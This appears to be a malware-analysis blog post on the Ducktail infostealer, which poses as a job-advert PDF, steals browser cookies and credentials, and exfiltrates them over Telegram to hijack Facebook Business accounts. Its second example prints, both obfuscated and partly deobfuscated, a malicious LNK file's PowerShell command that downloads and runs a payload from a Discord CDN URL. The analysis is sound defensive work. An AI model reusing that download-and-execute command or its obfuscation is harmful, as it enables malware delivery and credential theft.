```yaml
---
tags: Infostealers
---
```

## Analysing Ducktail Infostealer

Ducktail infostealer targets individuals and employees that may have access to a Facebook Business account.
The malware is designed to steal browser cookies and take advantage of authenticated Facebook sessions to steal information from the victim's Facebook account and ultimately hijack any Facebook Business account that the victim has sufficient access to.
In some cases, the malware is delivered to victims over Linkedin, with the user of fake recruiter accounts.
The binary is designed to use Telegram API to exfiltrate data.

## Example 1 - Binary Masquerading as Job Advertisement
This sample is taken from [Virustotal](https://www.virustotal.com/gui/file/681a9d8a02e7abacc8d5218de80f16e16c02c2b40807246aa7a45e627e35038b)

It's worth mentioning that this sample, and many others, have very minimal hits on VT, usually 0 or 1.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d275931e-404f-46bb-b65f-3180e1b9d5f9)

Upon execution, to the user, it appears that a PDF file is opened harmlessly.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c036b5c0-3dc0-409a-9374-c5f6b43ec1de)

In the background, a few things are happening.
A browser is silently executed and used to navigate to varius websites to retrieve the victims IP address.

_Evident with the following strings:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/081e99c9-deca-4f75-b6cf-509b313ca1bc)


A dll is dropped to the '%AppData%\Temp\.net' directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e0003384-3133-457a-bd99-c687c745ec8a)

The actually legitimate PDF file is dropped to the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/73676dae-5cc4-49af-8d9a-8f46f963e529)

A screenshot of the screen at the time of execution is taken and stored in the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e885a983-b204-4a0b-b412-8721d0fa9e52)

More interestingly, the following files are collected to be exfiltrated.

_System Information:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49376a22-3737-4254-b8a6-eb1a3aa57fd5)

_Credentials from Browsers:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b3d63fbe-8d70-4324-9852-ca4482c108ed)

This information is again stored in the Temp directory.

Telegram is used as a means of C2 and data exfiltration, this is also evident in the strings, with Telegram URLs and API calls.


![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/39be0c4d-3c68-4ce7-b48d-74c71423d613)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/09f46a31-5290-4181-ae12-bc73331f76af)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4dc027fc-d125-4f6e-a1c9-51c63eca739c)

From Telegram bot [atricle](https://telegrambots.github.io/book/Migration-Guide-to-Version-14.x.html)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2ca2c814-fcb2-4f13-a624-2c1404a80226)

There are also some interesting references to Facebook URLs within the strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6728cd25-712c-4b56-a6ff-87993575512c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5822417-b4c6-4969-b677-433c1c6e5e77)

As well as a list of hardcoded Outlook email addresses

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/edabee64-7f99-46e1-8107-119bde5b61ee)

It's assessed that these email addresses are added to the compromised Facebook Business group.

## Example 2 - LNK File, Calling out to Discord

A much more simpler example, is an lnk file which target path is to download a remote payload from Discord CDN.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5a4f76a-94f8-4ee6-ad76-58483bd027f0)

```
C:\WINDOWS\system32\cmd.exe /c powershe""l""l/""W 0""1 $op='i'+''+'E'+'x';sal donke $op;$hx508wpj=donke(donke($($('(nsd88w-objsd88ct
Systsd88m.Nsd88t.Wsd88bClisd88nt).Doq82mtring(''hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg''.Replace(''u8pv'',''ttps://'').Replace(''i47'', ''e''))').Replace('sd88', 'e').Replace('q82m', 'wnloadS'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Slightly deobfuscated:
```
/c powershe ll/W 01 ='i'+''+'E'+'x';sal donke ;=donke(donke((new-object System.Net.WebClient).DownloadString('hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg'.Replace('u8pv','ttps://').Replace('i47', 'e'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```
We can see that PowerShell is being used to download and execute the remote payload: "hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg"


